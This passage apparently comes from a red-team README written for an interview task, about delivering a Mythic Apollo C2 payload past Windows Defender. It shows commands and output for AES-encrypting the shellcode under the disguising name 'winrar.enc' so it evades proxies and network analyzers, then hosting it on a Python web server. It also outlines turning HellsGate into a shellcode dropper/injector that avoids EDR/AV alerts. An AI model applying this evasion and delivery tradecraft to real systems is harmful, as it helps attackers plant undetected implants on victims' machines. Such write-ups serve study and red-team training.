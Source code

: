 <a name="aes-encrypt-the-apollo-shellcode"></a>
### AES Encrypt the Apollo Shellcode 

- Encrypting shellcode helps evade analysis from web proxies and network analyzers. 

- [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) has a useful powershell called [Invoke-SharpEncrypt.ps1](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader/blob/master/Invoke-SharpEncrypt.ps1) which is useful to aes encrypt shellcode using a password.

- Parts of [Invoke-SharpLoader.ps1](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader/blob/master/Invoke-SharpLoader.ps1) have been incoporated in the Hells Gate project shown below to decrypt the aes shellcode.

- Import [Invoke-SharpEncrypt.ps1](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader/blob/master/Invoke-SharpEncrypt.ps1)  and aes encrypt the shellcode:

```
PS D:\Interview\Invoke-SharpLoader> . .\Invoke-SharpEncrypt.ps1
PS D:\Interview\Invoke-SharpLoader> Invoke-SharpEncrypt -file D:\Interview\Invoke-SharpLoader\apollo.bin -password ILoveMythic -outfile D:\Interview\Invoke-SharpLoader\winrar.enc
   ______                ____                       __
  / __/ /  ___ _______  / __/__  __________ _____  / /_
 _\ \/ _ \/ _ /__/ _ \/ _// _ \/ __/ __/ // / _ \/ __/
/___/_//_/\_,_/_// .__/___/_//_/\__/_/  \_, / .__/\__/
                /_/                    /___/_/

                       Compress and AES encrypt files

[*] First Read All Bytes.                                 -> Done
[*] AES Encrypt our Bytes.                                -> Done
[*] Now let's Compress our Bytes.                         -> Done
[*] And finally encode our Bytes as a Base64 string.      -> Done

[!] Base64 string saved as D:\Interview\Invoke-SharpLoader\winrar.enc
```

- Setup a webserver to host the payload using WSL/Ubuntu: 

```
root@GHOUL:/mnt/d/Interview/Invoke-SharpLoader# sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<a name="rewrite-hellsgate-to-make-it-a-shellcode-dropperinjector"></a>
### Rewrite Hellsgate to make it a shellcode dropper/injector

Since the task was to bypass defender, it would be really simple to create a script to disable defender and have code execution after but in my experience I find that not OPSEC safe and very loud. Hence it would be really nice to have code execution without any alerts or footprints hence I chose the `HellsGate VX` technique to evade most EDR's/AV's.

- `HellsGate VX`  takes a more archaic approach - rather invoking system calls; the VX relies on well-established methodologies, the run-time reproduction of `LoadLibrary`, `GetProcAddress`, and `FreeLibrary`. This method has been sufficient in nullifying the PE files `Import Address Table` (IAT) as well as evading rudimentary heuristic analysis. In short this techique pseudo-disassembling `NTDLL` to retrieve the appropriate syscalls. 

